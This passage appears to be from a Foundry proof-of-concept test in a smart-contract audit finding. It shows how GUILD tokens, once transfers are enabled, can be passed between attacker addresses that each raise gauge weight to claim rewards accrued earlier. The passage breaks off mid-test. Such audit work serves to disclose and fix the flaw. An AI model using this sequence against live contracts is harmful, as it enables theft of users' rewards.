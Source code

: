 ```solidity
        vm.warp(block.timestamp + credit.DISTRIBUTION_PERIOD());
        //assertEq(profitManager.claimRewards(alice), 10e18);
        vm.prank(alice);
        guild.incrementGauge(gauge2, 50e18); // should claim her 10 pending rewards in gauge2
        assertEq(profitManager.claimRewards(bob), 90e18);
        assertEq(credit.balanceOf(address(this)), 235e18);

        // check the balances are as expected
        assertEq(credit.balanceOf(alice), 50e18 + 15e18 + 10e18);
        assertEq(credit.balanceOf(bob), 20e18 + 90e18);
        assertEq(credit.totalSupply(), 220e18 + 200e18);


        // gauge2 votes are now 100 alice, 200 bob
        // simulate 300 profit on gauge2
        // 50 goes to alice (guild voting)
        // 100 goes to bob (guild voting)
        // 150 goes to test (rebasing credit)
        credit.mint(address(profitManager), 300e18);
        profitManager.notifyPnL(gauge2, 300e18);
        vm.warp(block.timestamp + credit.DISTRIBUTION_PERIOD());
        // assertEq(profitManager.claimRewards(alice), 50e18);
        vm.prank(alice);
        guild.decrementGauge(gauge2, 100e18); // should claim her 50 pending rewards in gauge2

        //@audit-info => Enable transfer of GuildTokens
        vm.prank(governor);
        guild.enableTransfer();

        address attacker1 = vm.addr(10);
        //@audit-info => Attacker1 can't claim any rewards before receiving the GUILD balance and increasing the weight on the gauge 
        assertEq(profitManager.claimRewards(attacker1), 0);
        console2.log("Attacker1 CreditToken balance before stealing the GaugeRewards:" , credit.balanceOf(attacker1));
        console2.log("Attacker1 claimable GaugeRewards before performing the exploit:" , profitManager.claimRewards(attacker1));

        vm.prank(alice);
        guild.transfer(attacker1,50e18);

        vm.prank(attacker1);
        guild.incrementGauge(gauge2, 50e18);
        //@audit-info => Once attacker1 has increased his weight on the gauge can proceed to claimRewards that were generated before
        assertGt(profitManager.claimRewards(attacker1), 0);

        address attacker2 = vm.addr(20);
        //@audit-info => Attacker2 can't claim any rewards before receiving the GUILD balance and increasing the weight on the gauge 
        assertEq(profitManager.claimRewards(attacker2), 0);
        console2.log("Attacker2 CreditToken balance before stealing the GaugeRewards:" , credit.balanceOf(attacker2));
        console2.log("Attacker2 claimable GaugeRewards before performing the exploit:" , profitManager.claimRewards(attacker2));

        vm.prank(attacker1);
        guild.transfer(attacker2,50e18);

        vm.prank(attacker2);
        guild.incrementGauge(gauge2, 50e18);
        //@audit-info => Once attacker2 has increased his weight on the gauge can proceed to claimRewards that were generated before
```